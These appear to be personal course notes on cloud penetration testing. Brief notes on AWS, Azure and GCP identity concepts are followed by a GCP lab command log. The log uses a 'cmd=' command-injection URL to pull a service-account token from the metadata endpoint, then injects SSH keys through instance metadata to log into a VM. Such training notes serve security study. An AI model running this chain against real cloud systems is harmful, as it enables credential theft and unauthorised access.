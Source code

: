 # Course notes
A cloud could also have ...
- One account which can manage multiple accounts (ex. AWS orginisations)
- Cross account access (ex. Azure guest users)
- In GCP by default role attached to compute instance, in AWS/Azure its not enabled by default

### Apps URLs
AWS  -  orgname.awsapps.com/start
Microsoft - https://myapps.microsoft.com/

### Important URLs
MS admin portal - https://portal.microsoft.com/Adminportal/Home
GCP identity - admin.google.com
GCP user - myaccount.google.com

SAML, OpenIDConnect, O-Auth

Policies
- Inline policy
- Managed Policy - Managed policies, Customer Managed policies

Pentesting methodology
- MITRE ATT&CK Cloud matrix
- Cyberwarefarelabs - redteam attack flow

#### Resource hirarchy
- AWS - https://cdn.ttgtmedia.com/rms/onlineimages/aws_resource_hierarchy-f_mobile.png
- Azure - https://learn.microsoft.com/en-us/azure/cloud-adoption-framework/ready/azure-setup-guide/media/organize-resources/scope-levels.png
- GCP - https://cloud.google.com/static/resource-manager/img/cloud-hierarchy.svg 

#### Tools
- ```cloud_enum.py``` - bruteforce names against multi-cloud DNS bruteforce for services
- PACU for AWS

### Metadata
- ```curl http://169.254.169.254``` - All cloud providers have same IP to check if it is a cloud instance
- ```curl http://169.254.169.254/metadata```
 
# Commands
Login to gcp cli
```gcloud auth activate-service-account --key-file auth.json```

gcloud login with access-token ```gcloud projects list --access-token-file accesstoken.txt```

## All commands

gcloud auth activate-service-account --key-file ./sonic-airfoil-339910-8c4c6de6bf0d.json 

gcloud projects get-iam-policy sonic-airfoil-339910 --flatten="bindings[].members" --filter="bindings.members=serviceaccount:ssa-service-account@sonic-airfoil-339910.iam.gserviceaccount.com" --format="value(bindings.role)" - Output we get role name, use that for next command

gcloud iam roles describe 684bk057 --project sonic-airfoil-339910

gcloud container clusters list --format json

gcloud container clusters list

gcloud compute forwarding-rules list - we get an IP

URLs
- http://34.132.232.167/?cmd=curl%20http://169.254.169.254/computeMetadata/v1/instance/service-accounts/default/email%20-H%20%22Metadata-Flavor:Google%22
- http://34.132.232.167/?cmd=curl%20http://169.254.169.254/computeMetadata/v1/instance/service-accounts/gke-service-account@sonic-airfoil-339910.iam.gserviceaccount.com/token%20-H%20%22Metadata-Flavor:Google%22
- https://www.googleapis.com/oauth2/v1/tokeninfo?access_token=[TOKEN]

gcloud compute instances list

gcloud compute instances get-iam-policy tesing-instance --zone us-central1-b --flatten="bindings[].members" --filter="bindings.members=serviceaccount:gke-service-account@sonic-airfoil-339910.iam.gserviceaccount.com" --format="value(bindings.role)"

gcloud iam roles describe ew606s6o --project sonic-airfoil-339910

ssh-keygen , gcp.pub created, add gcp:... to the file which because we want gcp is username

gcloud compute instances add-metadata tesing-instance --metadata-from-file ssh-keys=gcp.pub --zone us-central1-b --access-token-file sess.txt

gcloud compute instances describe tesing-instance - get the ip of vm

ssh -i ./gcp gcp@104.154.17.222
- get the name of service account attached to that VM - gcloud auth list

